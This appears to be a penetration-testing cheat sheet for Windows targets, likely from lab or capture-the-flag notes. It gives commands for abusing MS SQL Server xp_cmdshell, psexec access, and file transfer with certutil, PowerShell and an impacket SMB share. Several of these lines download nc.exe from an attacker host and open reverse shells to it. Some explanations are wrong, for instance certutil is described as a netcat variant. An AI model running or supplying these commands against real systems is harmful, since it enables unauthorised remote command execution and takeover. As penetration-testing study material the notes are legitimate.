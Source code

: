 # Windows Specific {-}

## MS SQL Server {-}

For accessing to **MS SQL SERVER**, you can use `mssqliclient.py` utility from the impacket package that is available on kali or that you
can clone from the [impacket github repository](https://github.com/SecureAuthCorp/impacket).

```bash
locate mssqlcli
python3 mssqlclient.py -windows-auth <user>:<password>@10.10.10.10
SQL>
```

1. check if db user have sysadmin priviledges

    ```bash
    select IS_SRVROLEMEMBER('sysadmin', '<user>')
    ```
    if output is **1**, that means that the user is a priviledged user on the system

2. execute commands

    ```bash
    EXEC xp_cmdshell 'echo %cd%'
    xp_cmdshell powershell wget http://10.10.10.11:8000/nc.exe -OutFile %TEMP%\nc.exe
    xp_cmdshell powershell "%TEMP%\nc.exe -nv 10.10.10.11 443 -e cmd.exe
    ```

## Connect to machine with PSEXEC {-}

**psexec** is a tool from the impacket package. You can use it to connect to windows machines with a user and password.

```bash
python psexec.py <user>@10.10.10.10
```

## Send files to windows machine {-}

### Download files with certutil {-}

**certutil.exe** is a netcat variant for Windows. It can be use for download files form the internet like a wget tool

```bash
certutil.exe -f -urlcache -split http://10.10.10.10/chisel.exe C:\Windows\temp
```

### Download files by using Powershell {-}

```bash
powershell -c iwr -uri http://<attacker_ip>/<file_to_download> -OutFile C:\Windows\Temp\nc.exe
```

### Share SMB directory to Windows Machine {-}

Imaging we want to execute nc.exe on the Windows machine but this one don't have **nc.exe**. We can download nc.exe and execute
it by sharing a SMB folder.

1. On attacker machine

    ```bash
        impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. On windows machine

    ```bash
    \\10.10.10.10\smbFolder\nc.exe -e cmd 10.10.10.10 443
    ```
